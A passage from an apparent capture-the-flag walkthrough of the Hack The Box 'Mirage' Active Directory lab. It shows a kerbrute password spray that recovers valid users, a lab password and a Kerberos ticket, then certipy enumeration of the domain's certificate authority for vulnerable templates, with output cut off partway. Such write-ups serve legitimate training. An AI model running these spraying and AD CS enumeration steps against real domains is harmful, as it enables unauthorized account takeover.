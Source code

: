     INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: dc01.mirage.htb
    INFO: Done in 00M 25S


See, kerbrute works with David now! We added some other targets here to keep the sprays going, but no new tickets are generated.


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache


ABC: Always Be CNumerating.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./david.jjackson.ccache certipy find -k -no-pass -target dc01.$target -stdout -vulnerable
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Finding issuance policies
    [*] Found 13 issuance policies
    [*] Found 0 OIDs linked to templates
    [*] Retrieving CA configuration for 'mirage-DC01-CA' via RRP
    [*] Successfully retrieved CA configuration for 'mirage-DC01-CA'
    [*] Checking web enrollment for CA 'mirage-DC01-CA' @ 'dc01.mirage.htb'
    [!] Error checking web enrollment: [Errno 111] Connection refused
    [!] Use -debug to print a stacktrace
    [!] Error checking web enrollment: [Errno 111] Connection refused
    [!] Use -debug to print a stacktrace
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : mirage-DC01-CA
        DNS Name                            : dc01.mirage.htb
        Certificate Subject                 : CN=mirage-DC01-CA, DC=mirage, DC=htb
        Certificate Serial Number           : 1512EEC0308E13A146A0B5AD6AA741C9
        Certificate Validity Start          : 2025-07-04 19:58:25+00:00
        Certificate Validity End            : 2125-07-04 20:08:25+00:00
        Web Enrollment
          HTTP
            Enabled                         : False
          HTTPS
            Enabled                         : False
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
        Permissions
          Owner                             : MIRAGE.HTB\Administrators
          Access Rights